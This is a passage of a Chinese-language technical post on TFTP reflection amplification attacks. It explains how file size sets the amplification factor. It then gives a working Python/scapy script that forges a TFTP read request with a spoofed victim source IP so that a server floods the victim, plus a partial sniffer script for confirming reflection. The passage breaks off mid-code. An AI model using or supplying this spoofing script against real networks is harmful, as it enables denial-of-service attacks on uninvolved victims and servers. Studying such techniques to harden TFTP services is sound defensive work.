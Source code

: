 **2. TFTP服务器上已知文件的大小**

反射过来的DATA数据包的大小取决于读取文件的内容大小，这样就决定了我们最终反射放大的程度（相对于已知文件的文件名长度——影响请求包大小）。如果DATA数据包过小造成的影响也就很有限的了。

**3. 确定TFTP服务器可利用**

除了以上两点，如果存在其他的过滤机制，我们最终就需要测试一下该TFTP服务是否可利用，在攻击端伪造简单的数据包触发其反射到指定的主机上，代码如下：

{% highlight python %}
#!/usr/bin/env python
#coding=utf-8    

import optparse
import sys
import logging    

from scapy.all import *    

class Trigger(object):
    def __init__(self, target, port, filename, server):
        logging.getLogger('scapy.runtime').setLevel(logging.ERROR)
        self.target = target
        self.port = port
        self.filename = filename
        self.server = server    

    def run(self):
        t = IP(src=self.target, dst=self.server)/UDP(sport=self.port, dport=69)/TFTP()/TFTP_RRQ(filename=self.filename)
        send(t)
        print '[+] The trigger has benn sent !'    

if __name__ == '__main__':
    parser = optparse.OptionParser('uasge: %prog [options]')
    parser.add_option('-t', '--target', default=None,help='The ip of target')
    parser.add_option('-f', '--filename', default='larry', help='The filename for RRQ')
    parser.add_option('-p', '--port', type=int, default=2333, help='The src port of target')    

    (options, args) = parser.parse_args()
    if len(args) < 1 or options.target == None:
        parser.print_help()
        sys.exit(0)    

    trigger = Trigger(target=options.target, port=options.port, filename=options.filename, server=args[0])    

    trigger.run()
{% endhighlight %}

在我们之前指定的主机上检测一下是否有如期的DATA数据包到来即可，代码如下：

{% highlight python %}
#!/usr/bin/env python
#coding=utf-8    

import optparse
import sys
import logging    

from scapy.all import *    

class Sniff(object):
    def __init__(self, port):
        logging.getLogger('scapy.runtime').setLevel(logging.ERROR)
        self.port = port    

    def run(self):
        try:
            sniff(prn=self.udp_monitor_callback, filter='udp', store=0)
        except KeyboardInterrupt as e:
            print '[+] Bye !'
            sys.exit(0)    

[1]: https://wx4.sinaimg.cn/large/ee2fecafly1g3qq0xwq4mj20jv07cwie.jpg
[2]: https://wx1.sinaimg.cn/large/ee2fecafly1g3qq0ya7f7j20jf046dfx.jpg
[3]: https://wx3.sinaimg.cn/large/ee2fecafly1g3qq0z9cynj20ku0ddgpm.jpg
[4]: https://wx1.sinaimg.cn/large/ee2fecafly1g3qq0zva2uj20kt0aymy7.jpg
[5]: https://wx3.sinaimg.cn/large/ee2fecafly1g3qq11kk0zj20lm0dwtba.jpg
[6]: https://wx1.sinaimg.cn/large/ee2fecafly1g3qq12bak6j20m90epwh4.jpg
[7]: https://wx4.sinaimg.cn/large/ee2fecafly1g3qq12wh61j20et08ymym.jpg
[8]: https://wx1.sinaimg.cn/large/ee2fecafly1g3qq13d2t9j209i05rdgp.jpg
[9]: https://wx3.sinaimg.cn/large/ee2fecafly1g3qq13z4vpj20m702dglx.jpg